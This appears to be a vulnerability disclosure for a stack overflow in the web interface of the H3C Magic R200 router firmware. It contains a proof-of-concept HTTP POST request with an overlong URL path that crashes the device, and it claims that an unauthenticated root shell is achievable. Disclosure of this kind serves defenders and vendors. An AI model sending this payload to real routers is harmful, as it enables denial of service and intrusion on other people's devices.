

# H3C magic R200 R200V200R004L02.bin  Stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/
- Firmware download address ： https://www.h3c.com/cn/d_202012/1361151_30005_0.htm

## Affected version


The figure above shows the latest firmware.

## Vulnerability details



When requesting an app/* page, the web component does not handle the URL data well. The strlen function is used to judge the end of the data, and then the URL is intercepted. Then copy the data to the stack through the strncpy function.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware R200V200R004L02.bin
2. Attack with the following POC attacks

```
POST /ihomers/app/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa HTTP/1.1
Content-Type: application/json; charset=utf-8
Content-Length: 0
Host: 192.168.124.1
Connection: Keep-Alive
Accept-Encoding: gzip
User-Agent: okhttp/3.10.0
```


 The above figure shows the POC attack effect 

Finally, you can write exp, which can obtain a stable root shell without authorization


